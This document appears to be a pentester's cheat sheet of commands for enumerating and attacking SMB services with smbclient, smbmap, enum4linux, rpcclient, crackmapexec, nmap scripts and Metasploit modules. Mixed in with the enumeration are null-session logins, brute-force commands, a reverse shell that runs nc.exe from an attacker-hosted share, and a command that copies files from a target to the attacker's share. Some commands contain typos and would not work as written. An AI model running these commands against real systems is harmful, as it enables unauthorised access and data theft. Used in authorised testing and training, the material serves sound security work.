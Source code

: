 




# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]

# flags
-L # list
-U # user
-U '' # Null auth
-N # no pass
-U # Username
get flag_1 - # read file

# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP


smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection
nmblookup -A <Target IP>
rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups




```

## Password policy enum

```
crackmapexec smb 10.129.95.210 --pass-pol 
crackmapexec smb 10.129.95.210 --pass-pol -u  '' -p '' ##null login
crackmapexec smb 10.129.95.210 --pass-pol -u 'USER' -p 'PASS'
```




# SMB server
smbserver.py NAME $(DIR) -smb2support -user USER -password password
exde1234
```
smbserver.py share DIRECTORY # Start Smbserver



# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT

# Send files from target to our smb

copy FILE \\10.10.10.10\share\
```




# connect smb windows
```
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super
```

# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```




### Nmap 


```bash
nmap --script smb-vuln* -p 139,445 [ip]
nmap --script smb-enum-shares <IP>
nmap --script smb-enum-users <IP>
nmap -p445 --script smb-brute --script-args userdb=users.txt,passdb=passwords.txt <target>  
```

## samrdump.py (Impacket )
```bash
samrdump <IP>
```


# Windows
![[Pasted image 20221123164201.png]]

This tells Windows to connect to IPC$ by using empty username and password
```powershell
NET USE \\<Target IP>\IPC$ '' /u:''
```

## Enum

```powershell
enum -S <IP>





-S # Enumurate shares
-U # enumurate users
-P # Check for password policy
```

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>


## winfo
```powershell
winfo <IP> -n 

-n # Null attack
```

# Metasploit

```ruby

use auxiliary/scanner/smb/smb_version # check version

use auxiliary/scanner/smb/smb_enumusers # enumurate users 

use auxiliary/scanner/smb/smb_shares # enumurate shares 
set sharefiles true

use auxiliary/scanner/smb/smb_login # bruteforce login 
# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor 
```
